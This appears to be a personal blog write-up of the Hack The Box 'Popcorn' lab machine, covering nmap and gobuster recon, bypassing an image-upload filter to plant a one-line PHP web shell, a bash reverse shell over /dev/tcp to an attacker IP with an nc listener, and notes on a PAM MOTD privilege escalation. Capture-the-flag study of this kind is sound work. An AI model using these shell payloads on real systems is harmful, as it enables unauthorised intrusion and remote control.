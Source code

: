 ```yaml
---
title: htb popcorn
author: Yuchao
date: 2021-03-15 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


## Recon

#### nmap 
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.6
nmap -p 22,80 -sC -sV -oA scans/tcpscripts 10.10.10.6
```
- OpenSSH 5.1p1, Apache httpd 2.2.12  ---> older than Ubuntu Trusty 14.04 ---> Karmic (9.10)

#### Directory discovery
```bash
# asdf
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root-med -t 40
```
- get the path: /test (Status: 200) /index (Status: 200) /torrent (Status: 301) /rename (Status: 301)
- show a PHP info page.
- ``` file_uploads ``` is set to ON
- may vulnerable to Local File Inclusion.(LFI)
- /torrent can upload image as screen shot
- and the picture is saved at ``` http://10.10.10.6/torrent/upload/ ```

## upload webshell
#### manipulate php to bypass picture filters
- 1. file extension (the server did not have check this)
- 2. Content-Type header (this filter works on the server)
- 3. magic bytes (did not work)

so just change the http header,
add the php code before a png content in Burpsuite.
```php
<?php system($_REQUEST["cmd"]);?>
```

#### upload
cmd.php seems to be rename as its hash value, as 0ba973670d943861fb9453eecefd3bf7d3054713.php.

#### execute
``` curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id ```

## reverse shell
webshell
```bash
curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
```
attacker
```bash
nc -lnvp 443
```
upgrade the shell
``` bash
python -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo
fg
```

## privesc

#### Method 1: Linux PAM vulnerability

at user`s file
``` find . -type f -ls ```
``` /.cache/motd.legal-displayed ``` looks interesting.
- Googling for “motd.legal-displayed privesc”
- https://www.exploit-db.com/exploits/14339
- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation
- PAM will create ``` .cache/motd.legal-displayed ``` when login.
- https://askubuntu.com/questions/256020/how-can-i-stop-the-automatic-creation-of-cache-motd-legal-displayed-file
- sshd use pam to authenticate, so we need to ssh to the box.(as www-data)


#### Method 2: Dirty Cow

